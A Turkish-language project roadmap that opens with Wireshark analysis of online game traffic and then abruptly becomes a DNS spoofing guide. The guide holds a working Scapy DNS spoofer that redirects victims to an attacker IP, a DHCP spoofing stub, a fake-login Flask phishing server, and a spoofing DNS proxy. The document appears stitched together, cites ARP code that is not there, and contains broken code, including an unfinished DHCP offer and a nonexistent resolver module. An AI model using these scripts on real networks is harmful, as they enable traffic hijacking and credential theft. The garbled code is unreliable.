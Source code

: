 # ROADMAP.md: Python ile DNS Spoofing Özelliklerini Geliştirme ve Test Etme

## 1. Giriş
Bu proje, Counter-Strike: Global Offensive (CS:GO), Valorant ve PlayerUnknown's Battlegrounds (PUBG) gibi popüler çevrimiçi oyunların ağ bağlantılarını derinlemesine incelemeyi hedeflemektedir. Ana amaç, bu oyunlar sırasında kullanılan IP adreslerini, sunucuları, portları ve protokolleri tespit etmektir. Elde edilen veriler, oyun güvenliği araştırmaları, ağ performans analizi ve potansiyel zafiyet tespiti için temel oluşturacaktır.**

Bu rehber, DNS spoofing tekniklerini Python ile yeniden oluşturmayı, etik ve yasal sınırlar içinde kalarak kontrollü bir ortamda test etmeyi amaçlar.

## 2. Proje Vizyonu
** Projenin temel vizyonu, oyun ağ trafiği analizinde kapsamlı ve tekrarlanabilir bir metodoloji sunarak, araştırmacılar, güvenlik uzmanları ve oyun meraklıları için değerli bir kaynak olmaktır. Uzun vadede, bu projenin statik bir raporlama aracından, dinamik ve etkileşimli bir ağ analiz platformuna dönüşmesi hedeflenmektedir. Bu, sadece mevcut oyunları değil, gelecekteki çevrimiçi oyunları da analiz etmeye olanak tanıyan genişletilebilir bir yapıya sahip olacaktır. **

## 3. Tamamlanan Kilometre Taşı: V1.0 - Temel Ağ Analizi ve Raporlama
Bu aşama, projenin başlangıç hedeflerinin başarıyla tamamlandığı ilk temel sürümü temsil etmektedir.
  **Hedefler:**:
   - Seçilen popüler çevrimiçi oyunların (CS:GO, Valorant, PUBG) temel ağ bağlantı detaylarının (IP adresleri, portlar, kullanılan protokoller) tespiti ve belgelenmesi.
   - Bulguların README.md dosyasında açık ve anlaşılır bir şekilde sunulması.

## Temel Bileşenlerin Geliştirilmesi

### Tamamlanan Görevler:
  - Her bir hedef oyun için standart oyun senaryolarında (lobi, oyun içi, sunucu bağlantısı) Wireshark ile ağ trafiği yakalama süreçlerinin tanımlanması ve uygulanması.
  - Oyun trafiğini etkili bir şekilde izole etmek ve analiz etmek için özel Wireshark Capture Filters ve Display Filters setlerinin oluşturulması ve test edilmesi.
  - Yakalanan **.pcap** dosyaları üzerinde temel analizlerin yapılması ve kritik IP adresleri, port aralıkları ve ağ protokollerinin (UDP, TCP) belirlenmes
  - Projenin amacını, hedeflerini, kurulum adımlarını ve ilk bulguları içeren kapsamlı bir README.md dosyasının hazırlanması.
  - Tespit edilen IP/port/protokol bilgilerini özetleyen detaylı bir **"Oyun Ağ Bağlantıları Analiz Tablosu"**nun oluşturulması ve README.md'ye entegrasyonu.
  - İlgili araştırma notları için researchs/ klasörü altında ilk taslak Markdown dosyalarının oluşturulması (örn. csgo_network_analysis.md, wireshark_filters.md).


```

### DNS Spoofing Betiği
Bu betik, DNS sorgularını yakalar ve sahte yanıtlarla kurbanı yönlendirir.

1. Scapy ile DNS spoofing betiğini yazın:

```python
from scapy.all import *

def dns_spoof(packet):
    if packet.haslayer(DNSQR) and packet[DNS].qr == 0:
        spoofed_ip = "192.168.1.100"  # Saldırganın IP’si
        spoofed_packet = IP(dst=packet[IP].src, src=packet[IP].dst)/\
                         UDP(dport=packet[UDP].sport, sport=53)/\
                         DNS(id=packet[DNS].id, qr=1, aa=1, qd=packet[DNS].qd,
                             an=DNSRR(name=packet[DNS].qd.qname, ttl=10, rdata=spoofed_ip))
        send(spoofed_packet, verbose=0)

sniff(filter="udp port 53", prn=dns_spoof)
```

### DHCP Manipülasyon Betiği
Bu betik, sahte DHCP teklifleriyle istemcilere yanlış bir DNS sunucusu atar (DDSpoof benzeri).

1. Scapy ile DHCP spoofing betiği:

```python
from scapy.all import *

def dhcp_spoof(packet):
    if packet.haslayer(DHCP) and packet[DHCP].options[0][1] == 1:  # Keşif (Discover)
        fake_dns = "192.168.1.100"
        # Sahte DHCP yanıtı oluşturma (detaylı paket yapılandırması gerekir)
        # send(dhcp_offer)

sniff(filter="udp and (port 67 or 68)", prn=dhcp_spoof)
```

### Sahte Web Sunucusu
Kimlik avı veya sahte içerik sunmak için bir web sunucusu oluşturun.

1. Flask’ı kurun: `pip install flask`
2. Basit bir Flask uygulaması yazın:

```python
from flask import Flask, render_template

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('fake_login.html')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```

- `templates/fake_login.html` dosyası oluşturun (örneğin, bir giriş sayfası taklidi).

## Gelişmiş Geliştirmeler

### Seçmeli DNS Spoofing için DNS Proxy
DNSChef gibi belirli alan adlarını spoof eden bir DNS sunucusu oluşturun.

1. dnslib’i kurun: `pip install dnslib`
2. DNS proxy betiği:

```python
from dnslib import *
from dnslib.server import DNSServer, DNSHandler, BaseResolver
import dns.resolv

class SpoofResolver(BaseResolver):
    def resolve(self, request, handler):
        reply = request.reply()
        qname = str(request.q.qname)
        if qname in ['example.com.']:
            reply.add_answer(RR(qname, QTYPE.A, rdata=A('192.168.1.100'), ttl=60))
        else:
            # Gerçek DNS’e yönlendirme
            reply = DNSRecord.parse(dns.resolv.Resolver().query(request.q.qname, request.q.qtype).send())
        return reply

resolver = SpoofResolver()
server = DNSServer(resolver, port=53, address='0.0.0.0')
server.start_thread()
```

### Entegre MITM Betiği
Bettercap benzeri bir betikle ARP ve DNS spoofing’i birleştirin.

1. Yukarıdaki ARP ve DNS spoofing kodlarını birleştirin.
2. Yapılandırma dosyası veya komut satırı argümanlarıyla özelleştirin.

## Geliştirmelerin Test Edilmesi
1. **ARP Spoofing**:
   - Betiği çalıştırın.
   - Kurban VM’de ARP tablosunu kontrol edin (`arp -a`); ağ geçidinin MAC adresi saldırganınkiyle değişmiş olmalı.
2. **DNS Spoofing**:
   - Betiği çalıştırın.
   - Kurban VM’de bir alan adı çözümleyin (ör. `nslookup example.com`); sahte IP dönmeli.
3. **DHCP Manipülasyonu**:
   - Betiği çalıştırın.
   - Kurban VM’de IP kirasını yenileyin (`ipconfig /renew` veya `dhclient`); DNS sunucusu sahte IP olmalı.
4. **Sahte Web Sunucusu**:
   - Kurban VM’den sahte domaine erişin; sahte sayfa görüntülenmeli.

## Karşı Önlemler ve En İyi Uygulamalar
- **Statik ARP Girişleri**: ARP spoofing’i önler.
- **DNSSEC**: DNS sorgularını doğrular.
- **HTTPS Kullanımı**: Sertifika uyarılarına dikkat edin.
- **VPN**: Trafiği şifreler ve yerel manipülasyonları engeller.
- **İzole Test Ortamı**: Üretim ağlarında test yapmayın.

## Sonuç
Bu yol haritası, Python ile DNS spoofing özelliklerini geliştirmeyi ve test etmeyi adım adım açıklamıştır. Etik ve yasal sorumluluklara bağlı kalarak, bu bilgileri siber güvenliği güçlendirmek için kullanmaya devam edin.
